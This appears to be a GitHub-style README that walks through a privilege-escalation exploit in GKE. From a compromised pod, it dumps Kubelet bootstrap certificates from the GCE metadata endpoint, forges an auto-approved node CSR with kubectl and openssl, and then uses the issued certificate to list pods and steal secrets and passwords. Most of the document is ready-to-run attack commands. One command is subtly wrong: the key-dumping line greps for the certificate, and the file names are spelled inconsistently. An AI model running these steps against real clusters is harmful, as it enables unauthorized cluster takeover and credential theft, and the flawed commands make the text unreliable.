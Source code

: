 ### How to get access into a K8s from inside k8s pod using Kubelet TLS Bootstrapping.

Required: You need to be a inside a pod and have kubectl curl installed.

### - How the exploit works.

1. Vulnerable Systems in GKE

- A cluster which has no workload identity configured for k8s cluster
- A cluster with workload identity configured but the pod has hostNetwork: true flag in its spec

2. Description of the expolit

- Bootstrap certs are the main reason this exploit even works. If an attacker gets hold of the bootstrap.crt and bootstrap.key he can list and get CSR objects on k8s cluster which is exploited.
- In GCP there is something called metadata.google.internal endpoint which holds the metadata of the Compute Engine. All VMs in gce can access this endpoint to check the metadata pertaining to it.
- In case of GKE Nodes this endpoint contains a metadata which has all key , value pairs pertaining to GKE cluster eg: ca.cert, K8S api server endpoint etc.
- We will look for one such key value pairs called TPM_BOOTSTRAP_CERT and TPM_BOOTSTRAP_KEY and gain access to list , get and create CSR objects.

### Preparation for the exploit.

- You must have gained an RCE access to a pod inside the vulnerable cluster (By any means). And have kubectl and curl installed.

### The exploit.

- Once you are in the pod which is vulnerable, check if the following endpoint gives some data.

`curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env'`

- If you get some data from the above mentioned endpoint, look for TPM_BOOTSTRAP_CERT , TPM_BOOTSTRAP_KEY and CA_CERT and dump them.

```
curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep TPM_BOOTSTRAP_CERT | awk '{print $2}' | base64 -d > bootstrap.crt

curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep TPM_BOOTSTRAP_CERT | awk '{print $2}' | base64 -d > boostrap.key

curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep CA_CERT | awk '{print $2}' | base64 -d > ca.crt
```

- After dumping these certs , now the real expolits starts. Use the below command to view the CSR objects in the cluster. Also there KUBERNETES_PORT_443_TCP_ADDR is the endpoint of the API server or the masterIP:443

`kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get certificatesigningrequests`

- If you are able to list the csr objects then it is time to create one for yourself and access the cluster using your own certs. [More details on How to access cluster using the certs api is documented here](https://github.com/Vinayaks439/k8s-security-docs/blob/main/docs/CreateUser.MD)

- Create a key and CSR cert by using openssl command.

`openssl req -nodes -newkey rsa:2048 -keyout k8sgg.key -out k8sgg.csr  -subj "/O=system:nodes/CN=system:node:<NAME of the NODE>"`

**Note: Here the CN must be as mentioned above, you have to provide your name of the node where your current pod is running on (Else it wont be auto approved).**

- After you generate a CSR cert. It is time to create a CSR object in k8s cluster from within your pod.

```
cat <<EOF | kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} create -f -
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  name: node-csr-$(date +%s)
spec:
  groups:
  - system:nodes
  request: $(cat k8sgg.csr | base64 | tr -d '\n')
  signerName: kubernetes.io/kube-apiserver-client-kubelet ##If all rules are alinged it will be auto approved.
  expirationSeconds: 86400
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF
```

**Note: The spec.expirationSeconds field was added in Kubernetes v1.22. Earlier versions of Kubernetes do not honor this field. Kubernetes API servers prior to v1.22 will silently drop this field when the object is created.**

- Make sure your object alings well with this documentation which has rules pertaining to your [signerName](https://kubernetes.io/docs/reference/access-authn-authz/certificate-signing-requests/#kubernetes-signers)

- Once your CSR object is auto aprroved and issued, you can fetch your signed public.crt using the following command below.

`kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get csr <CSR_NAME> -o jsonpath='{.status.certificate}' | base64 --decode > node.crt`

- Now finally you have a signed public.crt and a private.key which you generated and is now authenticated to the cluster. You can verify that by using your certs in the kubectl command.

`kubectl --client-certificate node.crt --client-key k8sgg.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get pods -o wide`

- Voila you just got access to pods by being inside a pod.

- You can use this cert to list secrets and fetch the passwords used by the application inside the cluster.
